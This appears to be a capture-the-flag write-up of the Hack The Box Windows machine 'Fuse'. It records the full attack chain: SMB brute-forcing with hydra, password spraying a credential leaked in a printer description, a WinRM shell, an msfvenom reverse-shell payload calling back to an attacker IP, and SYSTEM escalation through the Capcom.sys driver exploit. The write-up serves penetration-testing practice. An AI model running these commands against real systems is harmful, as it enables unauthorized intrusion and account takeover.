





# Fuse
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.193 -T4                         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 16:32 BST
Nmap scan report for 10.10.10.193 (10.10.10.193)
Host is up (0.092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49680/tcp open  unknown
49698/tcp open  unknown
```
```
└─$ nmap -Pn -p53,80,88,135,139,445,464,593,636,3268,3269,5985 -sC -sV 10.10.10.193 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 17:23 BST
Nmap scan report for 10.10.10.193 (10.10.10.193)
Host is up (0.16s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-09-09 16:35:34Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  ��7a)V       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-09T16:35:42
|_  start_date: 2023-09-09T15:42:29
|_clock-skew: mean: 2h32m23s, deviation: 4h02m30s, median: 12m22s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-09-09T09:35:41-07:00

```

- `smb`
```
└─$ smbclient -N -L //10.10.10.193                                                    
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.193 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- `ldapsearch`
```
└─$ ldapsearch -H ldap://10.10.10.193 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=fabricorp,DC=local
namingContexts: CN=Configuration,DC=fabricorp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://10.10.10.193 -x -b "DC=fabricorp,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=fabricorp,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1
```

- `rpc`
```
└─$ rpcclient -U "" -N 10.10.10.193
rpcclient $> querydispinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 

```

- Web Server


- `gobuster` found nothing

## Foothold
- We can check the print logs
  - And we the usernames which we can use for brute forcing


```
administrator
bhult
pmerton
tlavel
sthompson
```

- So the only thing left is to try brute-forcing
  - Let's generate a password list
```
└─$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > cewl.list
```
```
└─$ hydra -L users.list -P cewl.list fuse.fabricorp.local smb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-09 20:41:50
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 850 login tries (l:5/p:170), ~850 tries per task
[DATA] attacking smb://fuse.fabricorp.local:445/
[STATUS] 141.00 tries/min, 141 tries in 00:01h, 709 to do in 00:06h, 1 active
[445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: fuse.fabricorp.local   login: bhult   password: Fabricorp01
[STATUS] 161.33 tries/min, 484 tries in 00:03h, 366 to do in 00:03h, 1 active
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: fuse.fabricorp.local   login: tlavel   password: Fabricorp01
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-09 20:47:02
```

- If we try to check `smb` with the new creds, we have a `NT_STATUS_PASSWORD_MUST_CHANGE`
```
└─$ smbclient -U bhult -L \\10.10.10.193 
Password for [WORKGROUP\bhult]:
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
```
└─$ smbclient -U tlavel -L \\10.10.10.193
Password for [WORKGROUP\tlavel]:
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```

- I set the new password and checked `smb` again
```
└─$ impacket-smbpasswd fabricorp.local/tlavel:Fabricorp01@10.10.10.193 -newpass 'P@ssw0rd!!!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.

```
```
└─$ smbmap -u tlavel -p 'P@ssw0rd!!!' -H 10.10.10.193 -R ''
[+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        .\IPC$\*
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    InitShutdown
        fr--r--r--                4 Sun Dec 31 23:58:45 1600    lsass
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    ntsvcs
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    scerpc
        fr--r--r--                1 Sun Dec 31 23:58:45 1600    Winsock2\CatalogChangeListener-36c-0
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    epmapper
        fr--r--r--                1 Sun Dec 31 23:58:45 1600    Winsock2\CatalogChangeListener-1e4-0
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    LSM_API_service
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    eventlog
        fr--r--r--                1 Sun Dec 31 23:58:45 1600    Winsock2\CatalogChangeListener-3e0-0
        fr--r--r--                4 Sun Dec 31 23:58:45 1600    wkssvc
        fr--r--r--                3 Sun Dec 31 23:58:45 1600    atsvc
...
   dr--r--r--                0 Sat May 30 00:29:21 2020    ..
        fr--r--r--               22 Sat May 30 00:29:21 2020    GPT.INI
        dr--r--r--                0 Sat May 30 00:29:21 2020    MACHINE
        dr--r--r--                0 Sat May 30 00:29:21 2020    USER
        .\SYSVOL\fabricorp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\*
        dr--r--r--                0 Sat May 30 00:29:21 2020    .
        dr--r--r--                0 Sat May 30 00:29:21 2020    ..
        dr--r--r--                0 Sat May 30 00:29:21 2020    Microsoft
        .\SYSVOL\fabricorp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Sat May 30 00:29:21 2020    .
        dr--r--r--                0 Sat May 30 00:29:21 2020    ..
        dr--r--r--                0 Sat May 30 00:29:21 2020    Windows NT
        .\SYSVOL\fabricorp.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\*
        dr--r--r--                0 Sat May 30 00:29:21 2020    .
        dr--r--r--                0 Sat May 30 00:29:21 2020    ..
        fr--r--r--               22 Sat May 30 00:47:55 2020    GPT.INI
        dr--r--r--                0 Sat May 30 00:29:21 2020    MACHINE
        dr--r--r--                0 Sat May 30 00:29:21 2020    USER
        .\SYSVOL\fabricorp.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\*
        dr--r--r--                0 Sat May 30 00:29:21 2020    .
        dr--r--r--                0 Sat May 30 00:29:21 2020    ..
        dr--r--r--                0 Sat May 30 00:29:21 2020    Microsoft
        .\SYSVOL\fabricorp.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Sat May 30 00:29:21 2020    .
        dr--r--r--                0 Sat May 30 00:29:21 2020    ..
        dr--r--r--                0 Sat May 30 00:29:21 2020    Windows NT

```

- Nothing interesting on `smb`
  - Let's check `rpc`
    - Note: password will be reset again, so we have to change it again
```
└─$ rpcclient -U "tlavel" -N 10.10.10.193 --password='P@ssw0rd123'                    
rpcclient $> querydispinfo
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x109c RID: 0x1db2 acb: 0x00000210 Account: astein       Name: (null)    Desc: (null)
index: 0x1099 RID: 0x1bbd acb: 0x00020010 Account: bhult        Name: (null)    Desc: (null)
index: 0x1092 RID: 0x451 acb: 0x00020010 Account: bnielson      Name: (null)    Desc: (null)
index: 0x109a RID: 0x1bbe acb: 0x00000211 Account: dandrews     Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x109d RID: 0x1db3 acb: 0x00000210 Account: dmuir        Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xff4 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x109b RID: 0x1db1 acb: 0x00000210 Account: mberbatov    Name: (null)    Desc: (null)
index: 0x1096 RID: 0x643 acb: 0x00000210 Account: pmerton       Name: (null)    Desc: (null)
index: 0x1094 RID: 0x641 acb: 0x00000210 Account: sthompson     Name: (null)    Desc: (null)
index: 0x1091 RID: 0x450 acb: 0x00000210 Account: svc-print     Name: (null)    Desc: (null)
index: 0x1098 RID: 0x645 acb: 0x00000210 Account: svc-scan      Name: (null)    Desc: (null)
index: 0x1095 RID: 0x642 acb: 0x00000010 Account: tlavel        Name: (null)    Desc: (null)
```
- We saw a printer service on port `80`, so let's check printers 
```
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]

rpcclient $> 

```

- And we have some creds
  - Let's password spray
```
└─$ crackmapexec smb 10.10.10.193 -u users.list -p '$fab@s3Rv1ce$1' --continue-on-success
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
```

- If we test for `winrm`, we  see that `svc-print` has permissions
```
└─$ crackmapexec winrm 10.10.10.193 -u users.list -p '$fab@s3Rv1ce$1' --continue-on-success
SMB         10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
HTTP        10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
```

- `winrm`
```
└─$ evil-winrm -u 'fabricorp.local\svc-print' -p '$fab@s3Rv1ce$1' -i 10.10.10.193
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-print\Documents>
```
## Root
- `whoami`
```
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
FABRICORP\IT_Accounts                      Group            S-1-5-21-2633719317-1471316042-3957863514-1604 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
*Evil-WinRM* PS C:\Users\svc-print\Documents> tasklist
tasklist.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

*Evil-WinRM* PS C:\Users\svc-print\Documents> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.
```
- We have `SeLoadDriverPrivilege`
  - We can follow steps from the [post](https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/)
  - I'll create the payload first
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=6666 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

- Now, we need to compile [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master) and [Eoploaddriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)
  - We also need [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
  - First we have to modify `ExploitCapcom` source code, so that it points to our payload
    - Set project to `Release` and `x64` then build it



- Then we have to also build our `Eoploaddriver`
  - Create a new project
  - Copy and paste the code from [Eoploaddriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)
  - Set project to `Release` and `x64`
  - Build it





- Now we have all files we need



- After uploading the files to target box, we need to run `EoPLoadDriver` that we compiled
  - It will enable `SeLoadDriverPrivilege`
  - Create a registry key with setting we need 
  - And execute `NTLoadDriver`, which will load the driver from the registry we created
```
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Users\svc-print\Documents\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

- Then we run the exploit driver
```
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 000001F7B1FD0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program

```

- And if we check listener, we now have our shell


